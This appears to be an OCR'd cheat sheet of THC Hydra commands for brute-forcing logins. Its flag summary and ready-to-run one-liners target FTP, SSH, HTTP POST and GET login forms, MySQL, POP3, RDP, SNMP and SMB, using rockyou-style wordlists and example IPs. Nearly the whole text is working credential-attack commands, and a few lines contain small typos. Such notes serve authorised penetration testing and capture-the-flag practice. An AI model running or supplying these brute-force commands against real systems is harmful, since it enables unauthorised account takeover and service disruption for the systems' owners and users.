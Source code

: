 - With Hydra:

• 

- -l  Single Username,-L Username list,-p Password,-P Password list,-t Limit concurrent connections,-V Verbose output,-f Stop on correct login,-s Port

• 

- hydra -L /root/username.txt -x 3:3:1 attack.domain.com http-get-form "/brute4.php:login=^USER^&pin=^PASS^:Denied"

• 

- FOR FTP
- If username is already given = hydra -l samson -P -P /usr/share/wordlists/rockyou.txt 192.168.1.101 ftp
- If password is given and needs to find username = hydra -L user.txt -p 123 192.168.1.101 ftp
- If both username and password is not given = hydra -L user.txt -P /usr/share/wordlists/rockyou.txt 192.168.1.101 ftp
- FTP Bruteforce with Hydra
- hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.11

• 

- FOR SSH
- hydra -L /usr/share/wordlists.rockyou.txt -P /usr/share/wordlists/rockyou.txt 192.168.1.101 -t 4 ssh

• 

- FOR HTTP FORM
- hydra -L [user] -P [password] [IP] http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
- hydra -l molly -P rockyou.txt 10.10.254.17 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

• 

- hydra -l root -P passwords.txt [-t 32] ftp [ https://securitytutorials.co.uk/brute-forcing- passwords-with-thc-hydra/]
- hydra -L usernames.txt -P pass.txt mysql

• 

- --> hydra -l root -P passwords.txt [-t 32] <IP> ftp
- --> hydra -L usernames.txt -P pass.txt <IP> mysql
- --> hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V

• 

- --> hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
- --> hydra -t 4 -V -f -l administrator -P rockyou.txt rdp://192.168.34.16

• 

- --> hydra -P common-snmp-community-strings.txt target.com snmp
- --> hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
- --> hydra -l root -P passwords.txt <IP> ssh
